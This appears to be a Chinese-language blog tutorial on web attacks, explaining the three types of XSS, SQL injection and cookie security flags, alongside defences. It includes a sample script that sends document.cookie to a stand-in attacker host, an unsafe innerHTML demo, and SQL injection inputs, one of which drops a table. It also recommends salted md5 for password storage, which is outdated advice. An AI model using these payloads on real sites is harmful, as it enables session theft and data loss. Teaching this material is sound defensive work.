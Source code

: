 ### 一、xss攻击

**XSS 即（Cross Site Scripting）中文名称为：跨站脚本攻击。**XSS的重点不在于跨站点，而在于脚本的执行。那么XSS的原理是：
		恶意攻击者在web页面中会插入一些恶意的script代码。当用户浏览该页面的时候，那么嵌入到web页面中script代码会执行，因此会达到恶意攻击用户的目的。那么XSS攻击最主要有如下分类：反射型、存储型、及 DOM-based型。 反射性和DOM-baseed型可以归类为非持久性XSS攻击。存储型可以归类为持久性XSS攻击。



**反射型XSS**

反射性XSS又可以叫做非持久性XSS，在恶意链接上添加恶意脚本代码，当受害者点击恶意链接url的时候，恶意代码会直接在受害者的主机上的浏览器执行。

因此反射型XSS的攻击步骤如下：

1、攻击者在url后面的参数中加入恶意攻击代码。
2、当用户打开带有恶意代码的URL的时候，网站服务端将恶意代码从URL中取出，拼接在html中并且返回给浏览器端。
3、 用户浏览器接收到响应后执行解析，其中的恶意代码也会被执行到。
4、攻击者通过恶意代码来窃取到用户数据并发送到攻击者的网站。攻击者会获取到比如cookie等信息，然后使用该信息来冒充合法用户
的行为，调用目标网站接口执行攻击等操作。



**存储型XSS**

**存储型XSS的原理是：主要是将恶意代码上传或存储到服务器中，下次只要受害者浏览包含此恶意代码的页面就会执行恶意代码。**

比如我现在做了一个博客网站，然后攻击者在上面发布了一篇文章，内容是如下：

```javascript
<script>window.open("www.gongji.com?param="+document.cookie)</script>
```

 如果我没有对该文章进行任何处理的话，直接存入到数据库中，那么下一次当其他用户访问该文章的时候，服务器会从数据库中读取后然后响应给客户端，那么浏览器就会执行这段脚本，然后攻击者就会获取到用户的cookie，然后会把cookie发送到攻击者的服务器上了。

**因此存储型XSS的攻击步骤如下：**

1、攻击者将恶意代码提交到目标网站数据库中。
2、用户打开目标网站时，网站服务器将恶意代码从数据库中取出，然后拼接到html中返回给浏览器中。
3、用户浏览器接收到响应后解析执行，那么其中的恶意代码也会被执行。
4、那么恶意代码执行后，就能获取到用户数据，比如上面的cookie等信息，那么把该cookie发送到攻击者网站中，那么攻击者拿到该cookie然后会冒充该用户的行为，调用目标网站接口等违法操作。

**如何防范？**
1、后端需要对提交的数据进行过滤。
2、前端也可以做一下处理方式，比如对script标签，将特殊字符替换成HTML编码这些等。



##### DOM-based型XSS

我们客户端的js可以对页面dom节点进行动态的操作，比如插入、修改页面的内容。比如说客户端从URL中提取数据并且在本地执行、如果用户在客户端输入的数据包含了恶意的js脚本的话，但是这些脚本又没有做任何过滤处理的话，那么我们的应用程序就有可能受到DOM-based XSS的攻击。因此DOM型XSS的攻击步骤如下：

1、攻击者构造出特殊的URL、在其中可能包含恶意代码。
2、用户打开带有恶意代码的URL。
3、用户浏览器收到响应后解析执行。前端使用js取出url中的恶意代码并执行。
4、执行时，恶意代码窃取用户数据并发送到攻击者的网站中，那么攻击者网站拿到这些数据去冒充用户的行为操作。调用目标网站接口执行攻击者一些操作。

**DOM XSS 是基于文档对象模型的XSS。一般有如下DOM操作：**
1、使用document.write直接输出数据。
2、使用innerHTML直接输出数据。
3、使用location、location.href、location.replace、iframe.src、document.referer、window.name等这些。
比如如下demo:

```javascript
<script>
  document.body.innerHTML = "<a href='"+url+"'>"+url+"</a>";
</script>
```



##### SQL注入

SQL注入是通过客户端的输入把SQL命令注入到一个应用的数据库中，从而执行恶意的SQL语句。
什么意思呢？我们来打个比方：我们有一个登录框，需要输入用户名和密码对吧，然后我们的密码输入 'or '123' = '123 这样的。
我们在查询用户名和密码是否正确的时候，本来执行的sql语句是：select * from user where username = '' and password = ''. 这样的sql语句，现在我们输入密码是如上这样的，然后我们会通过参数进行拼接，拼接后的sql语句就是：
**select \* from user where username = '' and password = ' ' or '123' = '123 ';** 这样的了，那么会有一个or语句，只要这两个有一个是正确的话，就条件成立，因此 123 = 123 是成立的。因此验证就会被跳过。这只是一个简单的列子，比如还有密码比如是这样的：'; drop table user;, 这样的话，那么sql命令就变成了：
**select \* from user where username = '' and password = ''; drop table user;'** , 那么这个时候我们会把user表直接删除了。

sql被攻击的原因是：sql语句伪造参数，然后对参数进行拼接后形成xss攻击的sql语句。最后会导致数据库被攻击了。

**防范的方法：**
1、我们可以使用预编译语句(PreparedStatement，这样的话即使我们使用sql语句伪造成参数，到了服务端的时候，这个伪造sql语句的参数也只是简单的字符，并不能起到攻击的作用。
2、数据库中密码不应明文存储的，可以对密码使用md5进行加密，为了加大破解成本，所以可以采用加盐的方式。



##### cookie安全策略

在服务器端设置cookie的时候设置 http-only, 这样就可以防止用户通过JS获取cookie。对cookie的读写或发送一般有如下字段进行设置：

**http-only:** 只允许http或https请求读取cookie、JS代码是无法读取cookie的(document.cookie会显示http-only的cookie项被自动过滤掉)。发送请求时自动发送cookie.
**secure-only:** 只允许https请求读取，发送请求时自动发送cookie。
**host-only:** 只允许主机域名与domain设置完成一致的网站才能访问该cookie。



https://www.cnblogs.com/tugenhua0707/p/10909284.html